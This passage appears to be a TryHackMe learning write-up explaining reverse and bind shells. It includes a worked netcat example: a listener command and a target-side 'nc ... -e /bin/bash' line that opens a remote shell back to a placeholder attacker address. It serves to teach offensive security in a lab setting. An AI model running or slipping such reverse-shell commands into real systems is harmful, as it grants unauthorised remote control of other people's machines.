 ## Task 3 - Types of Shell

At a high level, we are interested in two kinds of shell when it comes to exploiting a target: Reverse shells, and bind shells.

* **Reverse shells** are when the target is forced to execute code that connects back to your computer. On your own computer you would use one of the tools mentioned in the previous task to set up a listener which would be used to receive the connection. Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell. This, however, will not be a problem on the TryHackMe network due to the method by which we connect into the network.
* **Bind shells** are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.

As a general rule, reverse shells are easier to execute and debug, however, we will cover both examples below. Don't worry too much about the syntax here: we will be looking at it in upcoming tasks. Instead notice the difference between reverse and bind shells in the following simulations.

<ins>Reverse Shell example</ins>:

Let's start with the more common reverse shell.

Nine times out of ten, this is what you'll be going for -- especially in CTF challenges like those of TryHackMe.

Take a look at the following image. On the left we have a reverse shell listener -- this is what receives the connection. On the right is a simulation of sending a reverse shell. In reality, this is more likely to be done through code injection on a remote website or something along those lines. Picture the image on the left as being your own computer, and the image on the right as being the target.

On the attacking machine:

`sudo nc -lvnp 443`

On the target:

`nc <LOCAL-IP> <PORT> -e /bin/bash`

![task3-reverse-shell](./images/task3-reverse-shell.png)

Notice that after running the command on the right, the listener receives a connection. When the whoami command is run, we see that we are executing commands as the target user. The important thing here is that we are listening on our own attacking machine, and sending a connection from the target.
